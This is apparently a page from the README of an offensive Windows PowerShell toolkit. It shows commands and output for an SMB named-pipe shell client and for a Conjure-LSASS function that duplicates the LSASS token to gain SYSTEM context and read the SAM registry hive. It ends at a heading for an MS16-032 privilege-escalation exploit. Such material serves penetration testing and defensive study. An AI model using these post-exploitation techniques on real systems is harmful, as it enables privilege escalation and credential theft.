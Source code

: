 **Client:**
```
# Client disconnected because of "leave" command
PS C:\> Invoke-SMBShell -Client -Server 0AK -AESKey q6EKfuJTX93YUnmX -Pipe tapsrv.5604.yk0DxXvjUD9xwyJ9
# Client disconnected because "exit" command kills client/server
PS C:\> Invoke-SMBShell -Client -Server 0AK -AESKey q6EKfuJTX93YUnmX -Pipe tapsrv.5604.yk0DxXvjUD9xwyJ9
```

### Conjure-LSASS

Use the SeDebugPrivilege to duplicate the LSASS access token and impersonate it in the calling thread. If SeDebugPrivilege is disabled the function will re-enable it.

```
Conjure LSASS into our midst! ;)
C:\PS> Conjure-LSASS

[?] SeDebugPrivilege is available!

[+] Current process handle: 852

[>] Calling Advapi32::OpenProcessToken
[+] Token handle with TOKEN_ADJUST_PRIVILEGES|TOKEN_QUERY: 2000

[?] SeDebugPrivilege is enabled!

[>] Calling Advapi32::OpenProcessToken --> LSASS
[+] Token handle with TOKEN_IMPERSONATE|TOKEN_DUPLICATE: 1512

[>] Calling Advapi32::DuplicateToken --> LSASS
[+] Duplicate token handle with SecurityImpersonation level: 2008

[>] Calling Advapi32::SetThreadToken
[+] Knock knock .. who's there .. LSASS
[+] User context: SYSTEM

C:\PS> whoami
ERROR: Access is denied.
ERROR: Access is denied.

C:\PS> Get-ChildItem -Path hklm:SAM

    Hive: HKEY_LOCAL_MACHINE\SAM


SKC  VC Name                           Property
---  -- ----                           --------
  3   2 SAM                            {C, ServerDomainUpdates}
```

### Invoke-MS16-032
